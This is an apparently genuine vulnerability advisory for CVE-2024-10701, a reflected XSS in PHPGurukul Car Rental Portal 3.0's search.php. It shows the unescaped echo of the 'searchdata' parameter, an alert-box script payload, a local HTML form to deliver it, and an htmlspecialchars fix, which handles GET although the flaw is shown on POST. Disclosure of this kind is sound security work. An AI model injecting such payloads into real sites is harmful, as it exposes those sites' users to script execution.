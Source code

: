 # CVE-2024-10701 - [XSS vulnerability] found in Car Rental Portal 3.0 - (search.php)


Affected Project: **Car Rental Portal**

Exploit Author: Dimitris Chatzidimitris

Web: Php

Vendor: PHPGurukul

Official Website: (https://phpgurukul.com/car-rental-project-php-mysql-free-download/)

Version: 3.0

Updated: 05 June 2024

Vulnerable file: /search.php

Injection parameter: `searchdata`

<br />

Size: 16.0 MB

Sha256: 8a9ad60cf5f36e2c3c4a1ce6fed7438bb458a2d2489e2a1be60dbbdd481fdf8b

<br />

## Vulnerability Description:
The issue arises because the `searchdata` parameter from the URL is being directly inserted into the value attribute of an HTML input element without proper sanitization. 
This allows an attacker to inject arbitrary HTML or JavaScript code leading to an XSS attack.

<br />

## Vulnerable code:
```
<h1>Search Result of keyword "<?php echo $_POST['searchdata'];?>"</h1>
```

<br />

## Injection Payload Tested:

We set `searchdata` to:
```
"><script>alert('XSS')</script>
```

<br />

## Execution:

When the browser parses this through a POST request, it executes the `<script>alert('XSS')</script>` code, resulting in a popup displaying `"XSS"`.

<br />

## Demonstration:

Below is how `search.php` looks like:

<br />

![search.php](https://i.postimg.cc/mg6Vs6Vd/1.png)

<br />

As it is a POST request we need to use a file `test_form.html` with the following content to be able to trigger the XSS popup:
```
<!DOCTYPE html>
<html>
<head>
    <title>Search Form</title>
</head>
<body>
    <form action="http://localhost:8000/carrental/search.php" method="POST">
        <input type="text" name="searchdata" value='"><script>alert("XSS")</script>'>
        <input type="submit" value="Search">
    </form>
</body>
</html>
```

Then we have to open it on the browser:

For example:
`file:///home/username/Desktop/test_form.html`

<br />

![payload](https://i.postimg.cc/nVYkzL09/2.png)

<br />

After submitting the payload using POST with the vulnerable parameter `searchdata` and the XSS payload `"><script>alert('XSS')</script>`, XSS is triggered:

<br />

![xss](https://i.postimg.cc/t4fdfnCw/3.png)

<br />

## Recommendation for Preventing XSS:

To fix this vulnerability, we must always sanitize user inputs before rendering them in the HTML. We can use functions like htmlspecialchars() in PHP to encode special characters.

<br />

Example:
```
// Retrieve the search data using GET
$searchData = isset($_GET['searchdata']) ? $_GET['searchdata'] : '';

// Escape the output to prevent XSS
$safeSearchData = htmlspecialchars($searchData, ENT_QUOTES, 'UTF-8');
```

<br />

> One Click Can Change Everything: Be Secure.
